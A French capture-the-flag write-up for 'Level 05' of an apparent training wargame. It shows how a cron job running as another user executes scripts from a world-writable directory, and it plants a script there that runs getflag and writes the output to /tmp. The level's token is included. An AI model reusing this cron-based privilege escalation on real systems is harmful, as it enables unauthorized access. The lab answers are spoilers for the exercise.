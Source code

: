 ## **Level 05 :**

On est acceuilli par un : “You have new mail”

Voyons ce mail: `cat $MAIL`

output: `**/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05*`

On voit bien qu'on a job cron qui se lance toutes les minutes paires, qui va executer le script ` /usr/sbin/openarenaserver` suivant:

```shell
#/usr/sbin/openarenaserver:

#!/bin/sh
for i in /opt/openarenaserver/* ; do

(ulimit -t 5; bash -x "$i")

rm -f "$i"

done

###
```
(dans `opt/openarenaserver`, il n’y a rien)

On voit que le script va chercher tout les scripts presents dans ce dossier et les executer.

On va donc creer un script dans `opt/openarenaserver` qui lance `/bin/getflag` et redirige sa sortie dans `/tmp/flag.txt`.

```shell
#!/bin/sh
getflag > /tmp/flag.txt
```

> Token : **viuaaale9huek52boumoomioc**